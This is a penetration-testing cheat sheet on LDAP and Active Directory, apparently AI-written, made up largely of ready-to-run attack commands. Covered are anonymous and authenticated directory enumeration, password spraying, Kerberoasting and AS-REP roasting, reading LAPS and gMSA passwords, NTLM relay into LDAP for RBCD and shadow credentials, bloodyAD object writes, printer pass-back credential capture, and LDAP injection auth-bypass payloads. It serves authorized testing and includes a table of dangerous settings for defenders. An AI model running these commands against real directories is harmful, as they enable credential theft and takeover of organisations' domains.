

# LDAP

#LDAP #LightweightDirectoryAccessProtocol #ActiveDirectory #networkmanagement

## What is LDAP?
Lightweight Directory Access Protocol — the standard protocol for querying and modifying a distributed directory. It is the primary read/write query protocol for **Active Directory** (every DC is an LDAP server) and is also served by OpenLDAP/389-DS on Unix. On an engagement LDAP is the single richest AD enumeration surface: with any valid credential (often just an anonymous/null bind) you can pull the entire user/computer/group graph, find Kerberoastable/AS-REP-roastable accounts, read passwords stashed in `description`/LAPS/gMSA attributes, and — if signing/channel-binding isn't enforced — **relay** coerced authentication into it to seize RBCD or shadow credentials.

- Port **TCP/UDP 389** — LDAP (plaintext / STARTTLS)
- Port **TCP 636** — LDAPS (LDAP over SSL/TLS); required for writes like `msDS-KeyCredentialLink` (shadow creds) and password sets
- Port **TCP 3268** — Global Catalog (forest-wide partial replica, unencrypted)
- Port **TCP 3269** — Global Catalog over SSL
- **Bind types:** anonymous/null, SIMPLE (cleartext DN+password), SASL (GSSAPI/Kerberos, NTLM)

---

## Tools

| Tool | Use |
|---|---|
| [[Tools/Scanning/NMAP\|NMAP]] | `ldap-rootdse`, `ldap-search`, `ldap-brute` NSE |
| [[Tools/AD/ldapsearch\|ldapsearch]] | The raw OpenLDAP client — rootDSE, filters, GSSAPI bind |
| [[Tools/Lateral Movement/NetExec\|NetExec]] | Primary AD LDAP enumerator (`nxc ldap` — roast, delegation, gMSA, BloodHound) |
| [[Tools/AD/windapsearch\|windapsearch]] | Python AD LDAP enum wrapper (users/computers/privileged) |
| [[Tools/AD/ldapdomaindump\|ldapdomaindump]] | Dump whole directory to HTML/JSON/grep files |
| [[Tools/AD/BloodHound\|BloodHound]] | Attack-path graph; SharpHound / `bloodhound-python` collect over LDAP |
| [[Tools/AD/bloodyAD\|bloodyAD]] | LDAP **read/write** — set attributes, RBCD, shadow creds, DACL abuse |
| [[Tools/Lateral Movement/ntlmrelayx\|ntlmrelayx]] | Relay coerced auth into LDAP(S) → RBCD / shadow creds / dump |
| [[Tools/Payloads & Shells/metasploit\|metasploit]] | `ldap_query`, `ldap_login` auxiliary modules |

Also used inline: `ldap3` (Python library for rogue-server / custom binds — no standalone note).

---

## Key Concepts

| Term | Description |
|---|---|
| DC | Domain Component — `DC=domain,DC=com` |
| OU | Organizational Unit — container for objects |
| CN | Common Name — object identifier |
| DN | Distinguished Name — full object path |
| Base DN | Root of search — e.g. `DC=inlanefreight,DC=local` |
| rootDSE | Server info object read with an empty base + `-s base` (no auth) — gives `namingContexts`, `dnsHostName`, functional level |
| Bind | Authentication step before querying (anonymous / SIMPLE / SASL) |
| Anonymous/Null Bind | Query without credentials (`-x` with no `-D`) |

---

## Enumeration

### Nmap + rootDSE (no auth)

```bash
# NSE
nmap -p 389,636,3268,3269 --script ldap-rootdse,ldap-search -sV <target>

# rootDSE — naming contexts (= base DN), no credentials needed
ldapsearch -H ldap://<target> -x -b "" -s base namingContexts
ldapsearch -H ldap://<target> -x -b "" -s base "(objectClass=*)"   # full server info

# Anonymous bind test against the domain NC
ldapsearch -H ldap://<target> -x -b "DC=<domain>,DC=<tld>" "(objectClass=*)" 2>&1 | head -20
```

### NetExec — the fast path (authenticated)

`nxc ldap` is the modern one-stop AD enumerator; most former `-M` modules are now first-class flags. Add `-k` (or `--use-kcache`) to bind with Kerberos instead of NTLM.

```bash
# Baseline enum
nxc ldap <dc> -u <user> -p '<pass>' --users            # domain users (+ pwd-set/last-logon)
nxc ldap <dc> -u <user> -p '<pass>' --groups
nxc ldap <dc> -u <user> -p '<pass>' --admin-count      # adminCount=1 (protected/privileged)

# Roasting straight from LDAP (writes hashes to file arg)
nxc ldap <dc> -u <user> -p '<pass>' --asreproast asrep.out
nxc ldap <dc> -u <user> -p '<pass>' --kerberoasting kroast.out

# Delegation & weak-config hunting
nxc ldap <dc> -u <user> -p '<pass>' --find-delegation
nxc ldap <dc> -u <user> -p '<pass>' --trusted-for-delegation
nxc ldap <dc> -u <user> -p '<pass>' --password-not-required

# Credential-bearing attributes
nxc ldap <dc> -u <user> -p '<pass>' --gmsa                      # read gMSA managed passwords
nxc ldap <dc> -u <user> -p '<pass>' -M laps                     # read LAPS local-admin passwords
nxc ldap <dc> -u <user> -p '<pass>' -M ldap-checker             # signing / channel-binding enforced?

# Custom filter + attributes, and BloodHound collection
nxc ldap <dc> -u <user> -p '<pass>' --query "(servicePrincipalName=*)" "sAMAccountName servicePrincipalName"
nxc ldap <dc> -u <user> -p '<pass>' --bloodhound -c All --dns-server <dc>
```

> Module names above (`laps`, `ldap-checker`) are the long-standing ones — run `nxc ldap -L` on your build to confirm the current list, as modules get promoted to flags over time.

### ldapsearch — key queries

```bash
# All users — useful attributes only
ldapsearch -H ldap://<target> -x -b "DC=domain,DC=com" "(objectClass=user)" sAMAccountName cn mail description
# All computers
ldapsearch -H ldap://<target> -x -b "DC=domain,DC=com" "(objectClass=computer)" name dNSHostName operatingSystem
# Admin users (adminCount=1)
ldapsearch -H ldap://<target> -x -b "DC=domain,DC=com" "(adminCount=1)" sAMAccountName
# AS-REP roastable (UAC bit DONT_REQ_PREAUTH = 0x400000)
ldapsearch -H ldap://<target> -x -b "DC=domain,DC=com" \
  "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" sAMAccountName
# Kerberoastable (SPN set, exclude machine accounts)
ldapsearch -H ldap://<target> -x -b "DC=domain,DC=com" \
  "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))" sAMAccountName servicePrincipalName
# Passwords hidden in description
ldapsearch -H ldap://<target> -x -b "DC=domain,DC=com" "(objectClass=user)" description | grep -i "pass\|cred\|secret"
# MachineAccountQuota (feeds RBCD / noPac) — read off the domain object
ldapsearch -H ldap://<target> -x -b "DC=domain,DC=com" -s base "(objectClass=*)" ms-DS-MachineAccountQuota
# Password policy
ldapsearch -H ldap://<target> -x -b "DC=domain,DC=com" "(objectClass=domain)" minPwdLength maxPwdAge lockoutThreshold
# Query the Global Catalog (forest-wide, one hop) — port 3268
ldapsearch -H ldap://<target>:3268 -x -D "<user>@<domain>" -w '<pass>' -b "DC=domain,DC=com" "(objectClass=user)" sAMAccountName
```

### windapsearch / ldapdomaindump

```bash
# windapsearch — targeted enum (anonymous or authed)
python3 windapsearch.py -d <domain> --dc-ip <target> -u "" --users
python3 windapsearch.py -d <domain> --dc-ip <target> -u "" --privileged-users
python3 windapsearch.py -d <domain> --dc-ip <target> -u <user>@<domain> -p '<pass>' --computers

# ldapdomaindump — dump everything to /tmp (HTML + JSON + grep files)
ldapdomaindump <target> -u '<domain>\<user>' -p '<pass>' -o /tmp/ldap_dump
ldapdomaindump <target> -o /tmp/ldap_dump                      # anonymous attempt
```

---

## Connect / Access

```bash
# Anonymous / null bind
ldapsearch -H ldap://<target> -x -b "DC=domain,DC=com" "(objectClass=*)"

# SIMPLE bind — full DN
ldapsearch -H ldap://<target> -x -D "CN=user,CN=Users,DC=domain,DC=com" -w '<password>' -b "DC=domain,DC=com" "(objectClass=*)"

# SIMPLE bind — UPN shorthand
ldapsearch -H ldap://<target> -x -D "<user>@<domain>" -w '<password>' -b "DC=domain,DC=com" "(objectClass=*)"

# LDAPS (SSL) — needed for write ops (shadow creds, password sets)
ldapsearch -H ldaps://<target>:636 -x -D "<user>@<domain>" -w '<password>' -b "DC=domain,DC=com" "(objectClass=*)"
```

### Kerberos (SASL/GSSAPI) bind — no cleartext, no NTLM

```bash
# Obtain a TGT first (kinit or impacket), point resolv/hosts at the DC, then:
kinit <user>@<REALM>
KRB5CCNAME=/tmp/krb5cc_user ldapsearch -H ldap://<dc-fqdn> -Y GSSAPI -b "DC=domain,DC=com" "(objectClass=user)" sAMAccountName
# GSSAPI bind is what survives environments that block SIMPLE binds over cleartext 389.
```

---

## Attack Vectors

### Anonymous / Null Bind

```bash
# If the domain NC returns objects without -D, enumerate freely
ldapsearch -H ldap://<target> -x -b "DC=domain,DC=com" "(objectClass=user)" sAMAccountName | grep sAMAccountName
```

### Password Spray via LDAP Bind

```bash
# NetExec — spray one password across a user list (LDAP bind), honour lockout
nxc ldap <dc> -u users.txt -p 'Spring2026!' --continue-on-success

# Nmap ldap-brute
nmap -p 389 --script ldap-brute --script-args ldap.base='"DC=domain,DC=com"' <target>
```

> A failed SIMPLE bind returns LDAP result **49** with a sub-status: `data 52e` = bad password, `533` = account disabled, `775` = locked out, `532`/`773` = password/expired. Parse these to separate valid-user-wrong-password from invalid-user.

### Kerberoasting / AS-REP Roasting via LDAP

```bash
# NetExec pulls the tickets directly (needs a valid domain credential)
nxc ldap <dc> -u <user> -p '<pass>' --kerberoasting kroast.out
nxc ldap <dc> -u <user> -p '<pass>' --asreproast asrep.out
# Then crack with hashcat -m 13100 (TGS) / -m 18200 (AS-REP). See ldapsearch filters above to scope targets first.
```

### LAPS / gMSA credential reads

```bash
# LAPS — local Administrator password stored on the computer object, readable by delegated principals
nxc ldap <dc> -u <user> -p '<pass>' -M laps
# Legacy attr = ms-Mcs-AdmPwd (cleartext); Windows LAPS (2023+) = msLAPS-Password / msLAPS-EncryptedPassword
ldapsearch -H ldap://<target> -x -D "<user>@<domain>" -w '<pass>' -b "DC=domain,DC=com" \
  "(&(objectClass=computer)(ms-Mcs-AdmPwd=*))" ms-Mcs-AdmPwd

# gMSA — service account managed password blob, readable by authorised hosts/principals
nxc ldap <dc> -u <user> -p '<pass>' --gmsa            # derives the NT hash from msDS-ManagedPassword
```

### LDAP Relay → RBCD / Shadow Credentials

The counter to "LDAP signing not enforced". Coerce a machine/user to authenticate (PetitPotam / PrinterBug / DFSCoerce), relay it into LDAP, and write to the victim's object. Confirm feasibility first with `nxc ldap -M ldap-checker` (reports signing + channel-binding enforcement).



```bash
# RBCD over plain LDAP (needs signing NOT enforced)
ntlmrelayx.py -t ldap://<dc> --delegate-access --no-dump
# Shadow credentials over LDAPS (needs channel binding NOT enforced)
ntlmrelayx.py -t ldaps://<dc> --shadow-credentials --shadow-target <victim_computer>$
```

### bloodyAD — LDAP read/write of AD objects

```bash
# Read what you can write (DACL recon), then abuse it directly over LDAP
bloodyAD --host <dc> -d <domain> -u <user> -p '<pass>' get writable
bloodyAD --host <dc> -d <domain> -u <user> -p '<pass>' add computer EVILPC 'Password123!'   # if MAQ > 0
bloodyAD --host <dc> -d <domain> -u <user> -p '<pass>' set rbcd <target>$ EVILPC$            # RBCD
bloodyAD --host <dc> -d <domain> -u <user> -p '<pass>' add shadowCredentials <target>$        # shadow creds (LDAPS)
```

### LDAP Pass-Back (Printers / Appliances)

```bash
# A device (MFP, Confluence, NAS) configured to bind to a DC for auth can be pointed at YOU
# to capture its stored bind credentials in cleartext.
# 1. Change the LDAP server address in the device's web config to your IP
# 2. Trigger a "Test connection" / login
sudo tcpdump -i tun0 tcp port 389 -A            # SIMPLE bind DN + password appear in cleartext
# A rogue LDAP server (impacket / ldap3 / OpenLDAP) that accepts any bind captures creds even over LDAPS-downgrade.
```

### LDAP Injection (Web Apps)

```
# Auth-bypass payloads (unsanitised filter concatenation)
Username: *)(uid=*))(|(uid=*
Password: anything

# Boolean-blind extraction, char by char
Username: admin)(|(password=a*
Username: admin)(|(password=b*
```

---

## Dangerous Settings

| Setting | Risk |
|---|---|
| Anonymous/null bind allowed | Unauthenticated full AD enumeration |
| **LDAP signing not enforced** (`ldap://` 389) | NTLM **relay → RBCD** on any object |
| **LDAPS channel binding (EPA) not enforced** (`ldaps://` 636) | NTLM **relay → shadow credentials** |
| Credentials in `description`/`info` attributes | Cleartext password exposure to any reader |
| LAPS readable by over-broad group | Local-admin password disclosure per host |
| gMSA `msDS-GroupMSAMembership` too permissive | Service-account NT hash disclosure |
| `ms-DS-MachineAccountQuota > 0` | Any user adds computer accounts → RBCD / noPac |
| Accounts with SPN / DONT_REQ_PREAUTH | Kerberoast / AS-REP roast offline cracking |
| Device using LDAP for auth (printer/appliance) | LDAP pass-back cleartext credential capture |

---

## Quick Reference

| Goal | Command |
|---|---|
| Base DN / rootDSE | `ldapsearch -H ldap://host -x -b "" -s base namingContexts` |
| Null bind enum | `ldapsearch -H ldap://host -x -b "DC=domain,DC=com" "(objectClass=*)"` |
| Enum users (auth) | `ldapsearch -H ldap://host -x -D user@domain -w pass -b DC=... "(objectClass=user)" sAMAccountName` |
| Kerberos bind | `ldapsearch -H ldap://dc -Y GSSAPI -b DC=... "(objectClass=user)"` |
| NetExec all-in-one | `nxc ldap dc -u user -p pass --users --admin-count --find-delegation` |
| Kerberoast/AS-REP | `nxc ldap dc -u user -p pass --kerberoasting k.out --asreproast a.out` |
| Read LAPS/gMSA | `nxc ldap dc -u user -p pass -M laps` / `--gmsa` |
| Signing/CB check | `nxc ldap dc -u user -p pass -M ldap-checker` |
| BloodHound collect | `nxc ldap dc -u user -p pass --bloodhound -c All --dns-server dc` |
| ldapdomaindump | `ldapdomaindump host -u 'domain\user' -p pass -o /tmp/out` |
| LDAP relay (RBCD) | `ntlmrelayx.py -t ldap://dc --delegate-access` |
| bloodyAD writable | `bloodyAD --host dc -d domain -u user -p pass get writable` |

---

> [!note] **See also** — network-infra name-resolution sibling [[Services/Network Management/DNS|DNS]] (AD-integrated DNS enum/spoofing pairs with LDAP directory enumeration). Roasting/delegation output feeds [[Services/Active Directory/Kerberos|Kerberos]]; relay + coercion overlaps [[Services/File Xfer/SMB|SMB]] and [[Services/Network Management/NetBIOS|NetBIOS]] (NBNS/LLMNR/mitm6 capture the auth that relays here); ACL/DACL abuse discovered here is worked in [[Services/Active Directory/ACL Abuse|ACL Abuse]]. LDAPS (636) TLS posture — channel binding, cipher/cert issues — is assessed via [[Services/Network Management/TLS|TLS]].

---

*Created: 2026-07-13*
*Updated: 2026-09-23*
*Model: claude-opus-4-8*
